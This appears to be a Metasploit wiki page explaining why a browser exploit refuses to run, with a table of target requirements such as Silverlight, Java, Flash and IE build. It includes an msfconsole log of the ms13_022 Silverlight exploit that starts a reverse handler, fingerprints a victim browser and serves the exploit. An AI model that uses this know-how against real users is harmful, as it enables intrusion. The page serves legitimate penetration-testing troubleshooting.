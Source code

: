 So I see your browser exploit has refused to attack due to some kind of unmet requirements. Typically this means one of the following:

* Your target doesn't have the right conditions to be exploited.
* Your target isn't vulnerable at all.

The exploit should say what requirements are not met. The requirements are explained here:


| Key | Description |
| --- | ----------- |
| **:source** | Target has JavaScript disabled. |
| **:ua_name** | Target isn't using the preferred browser. For example: Firefox, IE. |
| **:ua_ver** | Target isn't using the preferred browser version. |
| **:os_name** | Target isn't using the preferred operating system. |
| **:os_flavor** | This has been deprecated. If you see this, your Metasploit is most likely out of date. |
| **:language** | Target isn't using the preferred OS language. |
| **:arch** | Target isn't on the preferred architecture. For example: x86/x64 |
| **:proxy** | Target has a proxy. |
| **:silverlight** | Target doesn't have Silverlight installed. |
| **:office** | Target doesn't have the preferred version of Microsoft Office installed, so the exploit cannot bypass DEP. |
| **:java** | Target doesn't have the preferred version of Java. Often this is used by exploits to bypass DEP. |
| **:clsid** | Target doesn't have the preferred ActiveX control. If this is the problem, you will only see a mismatch with :activex instead of :clsid. |
| **:method** | Target doesn't have the preferred ActiveX control. If this is the problem, you will only see a mismatch with :activex instead of :method. |
| **:mshtml_build** | Target isn't on the preferred build of Internet Explorer. Usually means only specific builds of IE are vulnerable. |
| **:flash** | Target isn't using the preferred version of Adobe Flash. Often this is used by exploits to leverage code execution. |
| **:vuln_test** | A custom JavaScript-based check. There should be a custom vuln_test_error message explaining why on msfconsole. |


### How to manually check requirement comparisons:

If you'd like to check the comparisons, simply set VERBOSE to true. The following is an example:

```msf
msf exploit(ms13_022_silverlight_script_object) > set VERBOSE true
VERBOSE => true
msf exploit(ms13_022_silverlight_script_object) > run
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.1.64:4444 
[*] Using URL: http://0.0.0.0:8080/SHIzaS2aZxIA6
msf exploit(ms13_022_silverlight_script_object) >
[*]  Local IP: http://192.168.1.64:8080/SHIzaS2aZxIA6
[*] Server started.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'sVfdquJGHzpHyLItxoTgeJI'.
[*] 192.168.1.80     ms13_022_silverlight_script_object - Gathering target information.
[*] 192.168.1.80     ms13_022_silverlight_script_object - Sending response HTML.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Info receiver page called.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'ZnKtXOQIvxAclSrEOxJ'.
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received sniffed browser data over POST: 
{"os_name"=>["Microsoft Windows"], "os_flavor"=>["XP"], "ua_name"=>["MSIE"], "ua_ver"=>["8.0"], "arch"=>["x86"], "java"=>["null"], "silverlight"=>["false"], "flash"=>["null"], "office"=>["null"], "mshtml_build"=>["18702"]}.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Received cookie 'ZnKtXOQIvxAclSrEOxJ'.
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Serving exploit to user with tag ZnKtXOQIvxAclSrEOxJ
[*] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Setting target "ZnKtXOQIvxAclSrEOxJ" to :tried.
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: source=(?i-mx:script|headers) vs k=script
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: os_name=Microsoft Windows vs k=Microsoft Windows
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: ua_name=MSIE vs k=MSIE
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: silverlight=true vs k=false
[!] 192.168.1.80     ms13_022_silverlight_script_object - 192.168.1.80     ms13_022_silverlight_script_object - Comparing requirement: arch=x86 vs k=x86
[!] 192.168.1.80     ms13_022_silverlight_script_object - Exploit requirement(s) not met: silverlight
```

### Related Reading:

- [[How to write a browser exploit using BrowserExploitServer]]
